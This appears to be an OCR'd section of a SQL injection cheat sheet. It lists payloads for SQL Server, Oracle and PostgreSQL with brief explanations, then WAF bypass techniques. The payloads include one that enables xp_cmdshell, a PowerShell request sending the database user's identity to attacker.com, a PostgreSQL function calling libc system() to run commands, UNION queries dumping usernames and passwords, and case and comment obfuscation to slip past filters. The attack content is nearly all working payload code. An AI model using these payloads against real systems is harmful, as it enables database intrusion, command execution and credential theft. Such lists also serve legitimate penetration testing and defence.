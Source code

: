### SQL Server Advanced

```sql
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
```
**Explanation**: A series of commands that enables the xp_cmdshell feature, which allows running system commands.

```sql
'; EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://attacker.com/?data=$(whoami) -Method GET"'; -- -
```
**Explanation**: Executes a PowerShell command that sends the username of the database service to an attacker's server.

### Oracle Advanced

```sql
' UNION SELECT LISTAGG(owner||'.'||table_name,',') WITHIN GROUP (ORDER BY table_name) FROM all_tables -- -
```
**Explanation**: Uses LISTAGG to combine all table names into a single result, separated by commas.

### PostgreSQL Advanced

```sql
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT; SELECT system('id'); -- -
```
**Explanation**: Creates a function that can execute system commands, then runs the 'id' command.

## 3. WAF Bypass Techniques

### String and Character Manipulation

```sql
' UNION SELECT CHAR(85,115,101,114,115) -- -
```
**Explanation**: Uses CHAR function to spell out "Users" using ASCII codes, bypassing filters that block the word "users".

```sql
' UnIoN/**/SeLeCt/**/username,password/**/FrOm/**/users -- -
```
**Explanation**: Mixes uppercase and lowercase letters and adds comments between words to bypass pattern matching.

### Alternatives to Common SQL Keywords

```sql
' UNION (SELECT username, password FROM users) -- -
```
**Explanation**: Uses parentheses to break up the SQL pattern.
